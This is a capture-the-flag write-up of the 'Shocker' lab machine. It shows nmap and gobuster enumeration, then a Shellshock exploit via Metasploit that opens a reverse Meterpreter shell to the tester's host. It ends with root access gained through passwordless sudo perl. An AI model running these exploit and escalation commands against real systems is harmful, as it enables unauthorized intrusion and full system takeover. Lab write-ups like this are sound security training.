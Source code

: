 # Shocker Write-ups

\# BlueBrain

## Enumeration

### Nmap

```
# nmap -sC -sV -oA nmap/initial 10.10.10.56
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-26 23:39 EDT
Nmap scan report for 10.10.10.56
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.91 seconds
```

An Nmap scan reveals two services, Apache and OpenSSH. OpenSSH is hosted on a non-standard port, however its use does not come into play during exploitation.

### Gobuster

Using the Gobuster produces the following results when fuzzing for directories and PHP files.

```
# gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirb/small.txt                           
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 403) [Size: 294]
Progress: 959 / 960 (99.90%)
===============================================================
Finished
===============================================================
```

Due to the limited results, and inferring from the name of the Machine, it is fairly safe to assume at this point that the entry method will be through a script in `/cgi-bin/` using the Shellshock exploit. Fuzzing for the extensions `sh, pl` get us the following results.

```
# gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh,pl         
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              sh,pl
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
Progress: 2877 / 2880 (99.90%)
===============================================================
Finished
===============================================================
```

## Exploitation

With the discovered `user.sh` script, and due to the lack of another attack surface, it is quite clear at this point that the exploit will be shellshock (Apache mod_cgi). There is a Metasploit module for this specific vulnerability, as well as a Proof of Concept on exploit-db.

### Metasploit

Module: exploit/multi/http/apache_mod_cgi_bash_env_exec

To run the Metasploit module, the only options that need to be set are `RHOST` and `TARGETURI`. The URI in this case will be `/cgi-bin/user.sh`. After the exploit has run, we have basic user permissions and access to the user flag at `/home/shelly/user.txt`

```
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhost 10.10.10.56
rhost => 10.10.10.56
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi /cgi-bin/user.sh
targeturi => /cgi-bin/user.sh
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.10.16.12:4444 
[*] Sending stage (1017704 bytes) to 10.10.10.40
[*] Command Stager progress - 100.00% done (1092/1092 bytes)
[*] Sending stage (1017704 bytes) to 10.10.10.56
[*] Meterpreter session 2 opened (10.10.16.12:4444 -> 10.10.10.56:32932) at 2024-05-27 00:12:21 -0400

meterpreter >
```

### Privilege Escalation

LinEnum: https://github.com/rebootuser/LinEnum

Running LinEnum presents a large amount of data to go over. One thing that stands out fairly quickly is that there is no password required to execute `sudo /usr/bin/perl`. Exploitation of this is trivial, and there are many ways from here to obtain the root flag. To quickly gain a root shell, the following command will suffice: `sudo /usr/bin/perl -e 'exec "/bin/sh"'`

```
sudo /usr/bin/perl -e 'exec "/bin/sh"'
id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag can be retrieved from `/root/root.txt`.
